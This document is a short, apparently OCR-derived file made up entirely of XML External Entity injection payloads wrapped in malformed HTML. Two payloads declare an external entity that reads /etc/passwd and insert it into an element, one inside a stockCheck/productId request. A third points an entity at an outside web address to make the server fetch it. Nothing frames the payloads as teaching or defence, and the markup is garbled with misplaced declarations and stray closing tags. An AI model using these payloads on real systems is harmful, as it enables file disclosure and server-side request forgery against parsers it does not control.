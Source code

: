 

<html>
<body>
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
</body>
</xml>
</html>


<html>
<body>
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
</body>
</xml>
</html>

<html>
<body>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://en.wikipedia.org/"> ]>
</body>
</xml>
</html>